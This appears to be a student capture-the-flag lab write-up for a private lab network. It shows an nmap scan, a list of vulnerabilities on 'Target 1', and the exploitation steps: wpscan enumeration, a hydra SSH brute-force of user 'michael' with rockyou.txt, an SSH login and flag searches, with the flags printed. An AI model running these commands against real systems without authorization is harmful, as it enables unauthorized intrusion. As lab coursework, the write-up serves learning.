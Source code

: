 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

```
bash
$ nmap -sV 192.168.1.0/24
  # Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-28 16:19 PDT
Nmap scan report for 192.168.1.1
Host is up (0.00069s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.1.100
Host is up (0.00076s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.105
Host is up (0.00068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.110
Host is up (0.00080s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.115
Host is up (0.0017s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.90
Host is up (0.0000080s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (6 hosts up) scanned in 28.83 seconds
```

This scan identifies the services below as potential points of entry:

- Target 1
  - 22/tcp ssh        
  - 80/tcp http

The following vulnerabilities were identified on each target:

- Target 1
  - Port 22 was opening allowing an attacker to SSH into the server.
  - Port 80 was open allowing unsecure connections to the web application.
  - The wordpress user 'michael' has a simple password.
  - The web server is vulnerable to brute force attacks.
  - The mySQL username and password is stored in plain text.
  - The user 'steven' requires no password to run commands in the python library. This allows for privilege escalation by generating a shell using python.

 - Scan Used
  - wpscan --url http://192.168.1.110/wordpress --enumerate

![](https://github.com/smalani06/cs-final-project/blob/main/images/wps1.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/wps1.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Target 1
  - `flag1.txt`: _b9bbcb33e11b80be759c4e844862482d_
    - **Exploit Used**
      - Use hydra to brute force the password for user 'michael'.
        - ```hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh```
      - SSH into the server using michael's account.
        - ```ssh michael@192.168.1.110```
      - Navigate to the website directory
        - ```cd /var/www/html/```
      - Use grep to find the flag in the html files.
        - ```grep -E flag*. *.html```

![](https://github.com/smalani06/cs-final-project/blob/main/images/hydra.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/flag1.png)

  - `flag2.txt`: _fc3fd58dcdad9ab23faca6e9a36e581c_
    - **Exploit Used**
      - SSH into the server using michael's account.
        - ```ssh michael@192.168.1.110```
      - Use find command to search for flags.
        - ```find . -name flag*```

![](https://github.com/smalani06/cs-final-project/blob/main/images/findflag2.png)
